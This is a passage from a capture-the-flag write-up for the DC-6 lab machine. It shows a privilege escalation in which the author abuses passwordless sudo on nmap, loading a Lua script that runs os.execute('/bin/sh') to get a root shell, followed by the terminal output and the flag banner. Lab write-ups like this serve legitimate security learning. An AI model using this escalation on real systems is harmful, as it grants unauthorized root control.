Again I checked the sudoers list and found that jens can run `/usr/bin/nmap` as root without a password.
Looking at [GTFObins](https://gtfobins.github.io/gtfobins/nmap/), I see as easy way to get a shell as root.
![gtfobins](/assets/img/dc-6/gtfobins.png)
```
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo /usr/bin/nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2020-09-01 21:26 AEST
NSE: Warning: Loading '/tmp/tmp.SOPgLECyvv' -- the recommended file extension is '.nse'.
#bash
root@dc-6:~# 
```

# The flag

```
root@dc-6:~# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
